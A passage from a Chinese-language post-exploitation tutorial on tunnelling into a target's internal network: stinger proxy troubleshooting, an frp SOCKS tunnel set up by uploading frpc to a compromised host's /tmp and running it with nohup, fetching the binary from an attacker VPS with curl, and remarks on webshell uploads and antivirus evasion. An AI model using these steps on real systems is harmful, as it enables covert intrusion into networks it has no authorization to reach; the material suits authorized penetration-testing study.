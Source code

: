 
以上操作成功后，VPS会监听60000端口，接下来直接配置好Proxifier就可以访问目标内网了。

特别注意：这个代理也不是很稳定，有时候会断开(Wrong data)。遇到断开情况后，手动kill stinger_server进程 再启动，最后重启VPS服务端stinger_client即可



###### 场景四	TCP出网-socks代理

**[frp](https://github.com/fatedier/frp)**

搭建步骤：
1.VPS运行服务端

~~~
./frps -c frps.ini
~~~

注：建议用Screen将frp挂起到后台，Screen挂起程序参考[用screen 在后台运行程序 - 简书](https://www.jianshu.com/p/b24f597c0561)

frps.ini内容：

~~~
[common]
bind_port = 8080
tls_only = true
tcp_mux = true
privilege_token = token123
kcp_bind_port = 8080
~~~

2.使用VPS将frpc frpc.ini上传到主机tmp目录，然后运行

~~~
Linux:
chmod +x /tmp/frpc-x86
nohup /tmp/frpc-x86 -c /tmpfrpc.ini>/dev/null nohup.out &

Windows
frpc -c frpc.ini
~~~

注：有时候用Webshell管理工具会上传失败或上传文件不完整，可以cd到frp目录，在vps使用 `python -m SimpleHTTPServer 80` 启动一个webserver，然后在客户端使用 `curl http://vpsip/frpc`下载文件。


以上操作成功后，VPS控制台会有输出，然后VPS会启动一个10001端口，接下来直接配置好Proxifier就可以访问目标内网了。

Proxifier使用参考：[Proxifier Socks5 代理（内网访问、远程办公）](https://blog.csdn.net/u013600314/article/details/106276126/)

ps：frp会涉及到免杀的问题，这里推荐另一个代理工具，体积更小，可以看作是rust版本的frp 

 [fuso](https://github.com/editso/fuso)





 #### 0x02 Lcx

内网IP：192.168.183.168
公网IP：192.168.183.181
